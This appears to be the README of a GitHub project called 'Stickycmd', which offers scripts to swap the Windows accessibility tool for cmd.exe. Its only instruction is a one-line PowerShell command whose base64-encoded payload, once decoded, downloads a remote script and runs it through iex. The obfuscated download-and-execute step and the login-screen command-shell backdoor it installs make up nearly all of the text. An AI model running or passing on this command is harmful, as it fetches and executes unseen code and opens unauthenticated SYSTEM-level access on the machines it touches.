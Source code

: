 # Stickycmd
Online Scripts To Swap Accessible For Cmd.exe


##Run

powershell -nop -noni -enc aQBlAHgAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAYIGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AcwBlAGMAdQByAGUAdABoAGUAbABvAGcAcwAvAFMAdABpAGMAawB5AGMAbQBkAC8AbQBhAHMAdABlAHIALwBzAHQAaQBjAGsAeQBjAG0AZAAuAHAAcwAxACcAKQApAA==
